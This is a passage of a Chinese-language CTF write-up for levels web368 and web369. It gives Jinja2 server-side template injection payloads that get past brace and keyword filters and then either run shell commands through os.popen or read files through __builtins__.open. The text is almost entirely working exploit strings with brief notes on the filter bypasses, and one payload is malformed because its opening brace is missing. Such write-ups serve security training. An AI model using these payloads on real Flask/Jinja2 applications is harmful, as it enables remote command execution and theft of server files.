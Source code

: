 继续用上一题的payload

```
a=__globals__&b=os&c=cat /flag&name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}
```

## web368(过滤了{})

用`{%%}`代替

```
?a=__globals__&b=os&c=cat /flag&name={% print(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read() %}
```



## web369(过滤了request)



```
x.__init__.__globals__.__getitem__('__builtins__').open('/flag').read()
```

```
% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(24)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join%}
{% set gei=(a,a,dict(getitem=a)|join,a,a)|join%}
{% set bui=(a,a,dict(builtins=a)|join,a,a)|join%}
{% set p=(q|attr(ini)|attr(glo)|attr(gei))(bui)%}
{% set chr=p.chr%}
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
{%print(p.open(file).read())%}
```

`dict()|join`拼接我们需要的字符（避免了使用引号）

在`__builtins__`下拿到`chr`拼接字符从而避免引号的使用，也用到了`__builtins__`下的`open`函数读取`flag`

另一payload

```
{% set a=(()|select|string|list).pop(24) %}
{% set globals=(a,a,dict(globals=1)|join,a,a)|join %}
{% set init=(a,a,dict(init=1)|join,a,a)|join %}
{% set builtins=(a,a,dict(builtins=1)|join,a,a)|join %}
{% set a=(lipsum|attr(globals)).get(builtins) %}
{% set chr=a.chr %}
{% print a.open(chr(47)~chr(102)~chr(108)~chr(97)~chr(103)).read() %}
```

```
lipsum.__globals__.get(builtins).open('/flag').read()
```
